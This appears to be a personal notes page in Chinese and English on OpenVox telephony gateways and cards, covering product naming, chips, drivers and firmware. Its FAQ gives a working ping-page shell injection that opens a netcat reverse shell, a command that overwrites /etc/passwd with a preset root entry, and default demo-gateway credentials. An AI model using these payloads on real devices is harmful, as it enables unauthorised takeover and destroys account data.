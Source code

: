 ```yaml
---
id: openvox
title: OpenVox
---
```


# OpenVox

- [OpenVox](http://www.openvox.cn/cn/)
- https://openvox.cn/pub/
- 210 vs 230
  - 230 has a longer wake width wise in the and not as steep; and the 210 has a steep shorter wake
  - The D230E/DE230E is an upgrade product of the D210E/DE210E.
- [D230E/DE230E on DAHDI User Manual](https://openvoxwiki.atlassian.net/wiki/spaces/UM/pages/917549/D230E+DE230E+on+DAHDI+User+Manual)
- http://www.openvox.cn/pub/
  - 公共文档
  - [D130/D230/D430 Series PRI Card_Datasheet](http://www.openvox.cn/pub/datasheets/English/D130_D230_D430_Series_PRI_Card_Datasheet.pdf)
- `cat /proc/interrupts`
  - 查看是否有独立中断
- 单机多卡需要时钟线
- A 卡都是附加 FXO-400, FSO-400
- D230E
  - [infineon](https://www.infineon.com/)
    - PEF 22554 HT v2.1
    - QuadFALC
    - G0624
    - Framer and LIU (Line Interface Unit) Component (FALC)
    - [Infineon Introduces 4-Line T1/E1/J1 Framer and LIU Component with Smallest Footprint and Lowest Power Consumption](https://www.infineon.com/cms/en/about-infineon/press/market-news/2002/129029.html)
  - 4x MNOVR MS1442 1443Y
  - AITRA cyclone IV
    - [Altera Cyclone® IV](https://www.altera.com.cn/products/fpga/cyclone-series/cyclone-iv/overview.html)
    - EP4CE10E17CBN
    - MALAYSIA
- 驱动下载 - https://openvox.cn/pub/drivers/dahdi-linux-complete/
- 演示网关
  - http://demo.openvox.cn:65327/
  - admin:admin

## 产品命名

- VS - VoxStack
  - 模块化系列网关
  - 支持热插拔
- AG - Analog Gateway - 模拟网关
- DGW - 数字网关
- SWG - Standalone Wireless Gateway - 独立无线网关
- GWM - Gateway Module - 网关模块
- 型号格式
  - D - Digit, B - BRI, X - 混合, G - GSM, A - Analog, V - 编码转换卡, TAP - 录音卡, WCD - G 卡的 WCDMA 扩展模块
  - E - 回声消除
  - 数字 路数 1,2,4,8,24
  - 版本 10/30, 30 是 10 的升级
  - P - PCI, E - PCIE
- GWM801O - 8 口 FXO 模块
- GWM420L - 4 口 LTE 模块

## 产品

- 常见芯片
  - M83241G13 - CPU Comcerto 1000
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- E2M8HJ9DJ68P - VS 模块
  - M83241G13 - Freescale Semiconductor - NXP
    - Telecom Interface ICs C1K-LS102M 450MHz
    - IC C1K 450MHZ VOIP 448BGA
- FXS-420 v1.2 - FS42HJ1KK4UY5
  - S13215-FM
- FXO-400 v1.4 - FXODHJO2XT6L
  - 3019-FT 1718FF L0L4
  - Si3050-FT 1708EM F1Q5
- A810E v1.4 - A814HJ1DBGCZ - PCIe 卡
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- VS-AGU-E2M0800 - VoxStack 系列 模拟网关
- VS-GGU-E2M0400 - VS 系列, GSM 网关
  - 硬件版本 Date 2012-11-09 FPGA 11 Hardware 00
  - 主板
    - RTL8316E
    - ATMLH424
- VS-GWM400
  - Quectel M35FAR01A08
  - Altera Cyclone IV EP4CE10F17C8N
  - asmedia asm1083
  - SPANSION S34ML01G200TF100 - Flash
  - CPU 是模块化接口
  - 850/900/1800/1900MHz@GSM
  - 900/2100MHz@UMTS
  - 900/1800MHz@GSM
- VS_USB-1044
  - LTE FDD: B1/B3/B5/B8
  - LTE TDD: B38/B39/B40/B41
  - TD-SCDMA: B34/B39
  - CDMA: BC0
  - WCDMA: 900/2100MHz
  - GSM: 900/1800MHz
  - Avahi - WirelessGateway \_burn.\_tcp - 169.254.8.223
  - 支持 SIM 模块类型
    - EC20 CE-HDLG
    - M26
    - M35 - LTE 4G
    - MCU
    - SIM6320C

## M83241G13

- ARM1136 - 2 Core, 650MHz
- 敏迅科技/Mindspeed Technologies 芯片
- Mindspeed 主要提供 VoIP 领域解决方案 - DSP, LTE, Transcede
- VoIP, Security Engine, PCIe 2, RGMII 2
- SDRAM 16/32 bit DDR2-800/667/533
- L1 缓存 2x(64K D$/64K I$)
- VoIP 能力
  - Field hardened voice features
  - World class acoustic echo cancellation technology
  - Narrow and wideband codecs
  - G.711, G.729, G.722, G.723.1, iLBC, T.38, G.729.1, G.722.2, AMR, AMR Wideband
  - Enhanced echo canceller, CID-I/II, VAD/CNG, AGC
  - 3-Way conferencing
- TDM/PCM interface for glue-less VoIP support
- 2009 年

## A810

- Communication controller: OpenVox Communication Co. Ltd. Device 0810 (rev 15)
- OpenVOX 电话模拟语音卡 A810E Asterisk 卡 8 路语音卡 FXO/FXS 模块化 A810E
- AE810E/AE810P [手册](https://openvox.cn/pub/misc/AE810E_AE810P_Elastix%202.0.4_User_Manual_English.pdf)

```bash
modprobe –r opvxa24xx
```

## 固件

- https://www.openvox.cn/pub/firmwares

```bash
# 升级流程
auto_update -i 1
auto_update -b u-boot.bin
auto_update -u -f AnalogGateway.img
```

# FAQ

## 获取 root 权限

1. ssh 用户名修改为 super 即可
2. ping 页面进行 shell 注入

- `google.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc yourip 1234 >/tmp/f`

```bash
cat /etc/passwd
echo 'root:$6$p5UxF/96kKYh3eVj$laEQueyeV4tDJV5ASR3kj7r5X/BtXQ/PJM4dCrnAo1M8HtSlDWupG7TQQ.r1wTncK.Jze4NNa9UN37wvT0L/L/:0:0:root:/tmp:/bin/bash' > /etc/passwd
```

## toybox 工具包

```bash
wget https://landley.net/toybox/downloads/binaries/latest/toybox-$(uanem -m)
```

## clone system

- 主要目录 /etc, /data, my_tools, /www
- /www 一般为 link，不同版本指向不同位置
- /tmp 下会存储一些运行和系统信息

```bash
ssh -p 12345 root@192.168.99.1 'cd /etc; tar cf - ./' | tar xvf - -C etc
```

## fix local perm

删除 link, 修复 目录 和 文件 权限

```bash
find . -type l -delete
find . -type d | xargs chmod 0744
find . -type f | xargs chmod 0644
```
